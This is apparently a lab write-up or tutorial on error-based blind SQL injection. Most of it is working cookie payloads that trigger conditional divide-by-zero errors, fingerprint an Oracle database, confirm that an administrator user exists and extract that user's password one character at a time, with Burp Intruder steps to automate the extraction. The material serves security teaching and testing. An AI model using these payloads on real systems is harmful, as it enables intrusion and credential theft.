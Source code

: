 # Error-based SQL injection

**Exploiting blind SQL injection by triggering conditional errors**

To see how this works, suppose that two requests are sent containing the following TrackingId cookie values in turn:

```
xyz' AND (SELECT CASE WHEN (1=2) THEN 1/0 ELSE 'a' END)='a
xyz' AND (SELECT CASE WHEN (1=1) THEN 1/0 ELSE 'a' END)='a
```

If the error causes a difference in the application's HTTP response, you can use this to determine whether the injected condition is true.

Using this technique, you can retrieve data by testing one character at a time:

```
xyz' AND (SELECT CASE WHEN (Username = 'Administrator' AND SUBSTRING(Password, 1, 1) > 'm') THEN 1/0 ELSE 'a' END FROM Users)='a
```

**You now need to confirm that the server is interpreting the injection as a SQL query i.e. that the error is a SQL syntax error as opposed to any other kind of error. To do this, you first need to construct a subquery using valid SQL syntax. Try submitting:**

```
TrackingId=xyz'||(SELECT '')||'
```

In this case, notice that the query still appears to be invalid. This may be due to the database type - try specifying a predictable table name in the query:

```
TrackingId=xyz'||(SELECT '' FROM dual)||'
```

As you no longer receive an error, this indicates that the target is probably using an Oracle database, which requires all SELECT statements to explicitly specify a table name.

Depending the type of database we are dealing with, we need to use deferent query to check for valid table in the database:

- Non oracle

```
TrackingID=xyz' AND (SELECT 'a' FROM your_table LIMIT 1)='a
```

- Oracle

```
TrackingID=xyz' AND (SELECT 'a' FROM your_table WHERE ROWNUM=1)='a
```

**You can also exploit this behavior to test conditions. First, submit the following query:**

```
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

Verify that an error message is received.

Now change it to:

```
TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'
```

Verify that the error disappears. This demonstrates that you can trigger an error conditionally on the truth of a specific condition. The CASE statement tests a condition and evaluates to one expression if the condition is true, and another expression if the condition is false. The former expression contains a divide-by-zero, which causes an error. In this case, the two payloads test the conditions 1=1 and 1=2, and an error is received when the condition is true.

**You can use this behavior to test whether specific entries exist in a table. For example, use the following query to check whether the username administrator exists:**

```
TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

**The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:**

```
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

Send a series of follow-up values to test different password lengths.

```
TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>2 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

and so on...

**After determining the length of the password, the next step is to test the character at each position to determine its value using Burp Intruder**

Go to Burp Intruder and change the value of the cookie to:

```
TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'
```

Place payload position markers around the final **a** character in the cookie value

Review the attack results to find the value of the character at the first position. The application returns an HTTP 500 status code when the error occurs, and an HTTP 200 status code normally.

Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value.
